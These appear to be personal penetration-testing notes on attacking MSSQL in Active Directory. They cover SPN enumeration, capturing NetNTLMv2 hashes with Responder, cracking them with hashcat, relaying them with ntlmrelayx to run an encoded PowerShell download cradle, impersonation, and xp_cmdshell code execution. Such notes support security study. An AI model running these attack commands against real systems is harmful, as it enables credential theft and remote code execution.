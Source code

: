 ## Microsoft SQL attacks

MSSQL in AD have SPN. To query the DC:
[[Active Directory]]
#AD #SPN #cmd
``` cmd
setspn -T corp1 -Q MSSQLSvc/*
```

#useful-script #ps1
```powershell
. .\GetUserSPNs.ps1
```

### Authentication in MSSQL

In AD this is handled by Kerberos, and the mapping between the user and dbo is done. If no mapping, the user will be guest. To login mapped to sa will have sysadmin role. 

Domain Users are member of Builtin Users group which has access by default.

For code refer to the mssql-exp VS project.

### UNC Path Injection 

The idea is to force the MSSQL to connect to our SMB share so we capture NETNTLMv2 hash for cracking, later we will also learn to relay the hash.
We must provide the UNC path with IP, not hostname as Windows would automatically switch from Kerberos to NetNTLM. 

Run the mssql-exp binary, but start the responder first on Kali to get the hash.
#NetNTLM #responder
``` bash
sudo responder -I tun0
```

For cracking.
#hashcat #cracking
``` bash
sudo hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```


### Relay NetNTLM hash

To not crack the hash we can relay it - the password may be strong. If the user whose hash we relay is local admin, we can get code exec. It is only possible if SMB signing not enabled (enabled by default on DC, but not on the standard Windows Servers).

To start the relay attack we give the encoded ps1 with download cradle:
#encoding #impacket
``` bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc <encoded_download_cradle>'
```

### MSSQL Priv escalation

The goal is to obtain access to the user who is sysadmin in MSSQL - we can use the AD priv esc. We can also do impersonation with the usage of EXECUTE AS - only certain users can use impersonation; not every user has it, there must be misconfig. We can Impersonate on user and login (EXECUTE AS USER/LOGIN). We can enumerate which account allows impersonation, but we cannot enumerate who can impersonate them.
For execute as USER we must do it on the msdb as it is TRUSTWORTHY with user dbo as he has sa.

#### Linked SQL Servers for Priv Escalation




### Getting code execution 

To obtain code execution we can use: xp_cmdshell, sp_oacreate (Ole Automation Procedure) or through loading custom assembly. Refer to the mssql-exp in code section for implementation.

For Custom Assemblies we can use the CREATE ASSEMBLY procedure, but that also requires TRUSTWORTHY db. We import managed dll as an object and execute. To hex encode assembly we use the follow:
[[Oneliners#^6217c2]]






